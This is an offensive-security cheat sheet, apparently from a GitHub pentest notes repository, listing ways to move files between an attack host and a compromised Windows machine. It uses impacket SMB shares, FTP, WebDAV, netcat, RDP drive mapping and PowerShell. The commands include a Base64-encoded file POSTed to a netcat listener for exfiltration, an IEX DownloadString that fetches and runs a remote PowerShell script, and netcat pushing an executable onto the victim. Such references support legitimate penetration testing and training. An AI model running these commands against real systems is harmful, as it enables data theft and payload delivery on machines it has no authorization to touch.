 ```yaml
---
legal-banner: true
---
```


### **Uploading files via SMB (no credentials)**

1.  Set up an SMB server  
    `sudo impacket-smbserver hackfast -smb2support .`
2.  Map a network drive  
    `net use z: \\[IP-ADDRESS]\hackfast`
3.  Upload a file via SMB  
    `copy file.txt z:\file.txt`

### **Uploading files via SMB (with credentials)**

1.  Configure the SMB server using impacket-smbserver  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
2.  Configure the SMB server using smbserver.py  
    `smbserver.py share . -smb2support -username hackfast -password hackfast`
3.  Map a network drive  
    `net use z: \\[IP-ADDRESS]\hackfast /user:hackfast hackfast`
4.  Upload a file to the mapped drive  
    `copy file.txt z:\file.txt`

### **Uploading files via FTP**

1.  Set up a write-enabled FTP server  
    `sudo python3 -m pyftpdlib --port 21 --write`
2.  Upload a file using PowerShell  
    `(New-Object Net.WebClient).UploadFile('ftp://[IP-ADDRESS]/file.txt', 'C:\Windows\Temp\file.txt')`
3.  Automate FTP upload with a command file  
    
    ![](../../img/Windows-Environment/1.png)

### **PowerShell Base64 web upload with netcat**

1.  Encode the file to Base64 (on Windows)  
    ```powershell
    $filePath = 'C:\Windows\Temp\file_name'
    $b64 = [System.Convert]::ToBase64String((Get-Content -Path $filePath -Encoding Byte))
    ```
2.  Start a netcat listener to capture the POST request  
    `nc -lvnp 8080 > received_b64.txt`
3.  Upload the Base64 string via HTTP POST  
    `Invoke-WebRequest -Uri http://[IP-ADDRESS]:8080/ -Method POST -Body $b64`
4.  Decode the Base64 string received via netcat  
    `cat received_b64.txt | base64 -d > file_name`

### **Uploading a file to a remote session**

1.  Create a PowerShell remoting session  
    `$Session = New-PSSession -ComputerName DATABASE01`
2.  Copy a file from the local machine to the remote session  
    `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

### **Uploading files via WebDAV**

1.  Install a WebDAV server  
    `sudo pip3 install wsgidav cheroot`
2.  Start the WebDAV server  
    `sudo wsgidav --host=0.0.0.0 --port=8081 --root=/tmp --auth=anonymous`
3.  List directory contents  
    `dir \\[IP-ADDRESS]\DavWWWRoot`
4.  Copy a file to the WebDAV server  
    `copy C:\Temp\file.zip \\[IP-ADDRESS]\DavWWWRoot\`

### **Netcat file upload (sending)**

**On the attack host (listening):**

1.  Using netcat  
    `sudo nc -l -p 443 -q 0 < file_to_send.exe`
2.  Using ncat  
    `sudo ncat -l -p 443 --send-only < file_to_send.exe`

**On the compromised machine (connecting):**

1.  Using netcat  
    `nc [IP-ADDRESS] 443 > received_file.exe`
2.  Using ncat  
    `ncat [IP-ADDRESS] 443 --recv-only > received_file.exe`

### **Uploading a file via RDP (Linux to Windows)**

1.  Using rdesktop  
    `rdesktop [IP-ADDRESS] -u [USERNAME] -p [PASSWORD] -r disk:linux='/home/user/rdesktop/files'`
2.  Using xfreerdp  
    `xfreerdp /v:[IP-ADDRESS] /u:[USERNAME] /p:'[PASSWORD]' /drive:[NAME],[PATH]`

### **Uploading files using PowerShell**

1.  Download and load a PowerShell upload script  
    `IEX (New-Object Net.WebClient).DownloadString('http://[IP-ADDRESS]:8000/PSUpload.ps1')`
2.  Upload a file using the script  
    `Invoke-FileUpload -Uri http://[IP-ADDRESS]:8080/upload -File C:\Windows\Temp\file_name`